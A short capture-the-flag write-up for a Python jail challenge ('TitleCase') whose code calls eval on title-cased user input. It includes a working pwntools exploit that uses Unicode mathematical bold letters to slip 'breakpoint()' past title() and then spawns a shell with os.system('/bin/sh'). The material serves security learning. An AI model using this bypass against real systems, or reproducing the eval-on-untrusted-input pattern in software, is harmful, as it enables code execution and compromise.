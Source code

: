 # TitleCase

```
A modern rerun of a SHA2017 challenge...

It was based on a real-life bug where the developers used this technique to turn a string containing "true" into a Python boolean:

with urllib.request.urlopen("<ATTACKER CONTROLLED>") as f:
   api_response = json.loads(f.read())
   boolean_value = eval(api_response["some_field"].title())
```

Attachment:

```python
#!/usr/bin/env python3

eval(input().title())
```

Following [Pyjail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/#unicode-bypass), we can bypass `title()` using italic/bold texts from [Unicode Block “Mathematical Alphanumeric Symbols”](https://www.compart.com/en/unicode/block/U+1D400):

```python
from pwn import *

context(log_level="debug")

p = process(["python3", "titlecase.py"])
text = f"breakpoint()"

encoded = ""
for ch in text:
    if ch.isalpha():
        encoded += chr(ord(ch) + 0x1D41A - ord("a"))
    else:
        encoded += ch
print(encoded)
p.sendline(encoded.encode())
# enters pdb, get shell
p.sendline(b"import os;os.system('/bin/sh')")
p.interactive()
```

The encoded input is `𝐛𝐫𝐞𝐚𝐤𝐩𝐨𝐢𝐧𝐭()`.
